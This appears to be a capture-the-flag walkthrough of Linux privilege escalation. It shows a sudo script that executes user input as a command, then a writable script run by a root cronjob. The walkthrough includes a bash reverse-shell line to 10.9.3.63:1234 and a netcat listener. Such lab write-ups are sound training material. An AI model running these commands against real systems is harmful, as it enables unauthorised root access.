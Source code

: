 ## Privilege Escalation

### Steps to reproduce

#### Recon

- Dale can sudo with file admin_checks
```
(gyles) NOPASSWD: /home/gyles/admin_checks
```

**Contents admin_checks**

```
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"

```

*We can overwrite $error variable possible*

**Entering /bin/bash in syntax $error 2>/dev/null priv escs us to user dale**

![alt text](image.png)

#### Priv escing to root

- Gyles has a file named .bash_history
![alt text](image-1.png)

- Cat this and search for intering stuff

![alt text](image-2.png)


- cat /opt/admin_stuff/script.sh
- Root runs a cronjob on this every minute

![alt text](image-3.png)

executes 2 bash scripts that are also included

![alt text](image-4.png)

- See if we can change any of those included bash files:

![alt text](image-5.png)

**We can change it**

```
nano /usr/local/bin/main_backup.sh
paste [bash -i >& /dev/tcp/10.9.3.63/1234 0>&1] in script
```

save and on attacker machine put:

```
nc -lvnp 1234
```

**Executing and giving us root privileges:**

![alt text](image-6.png)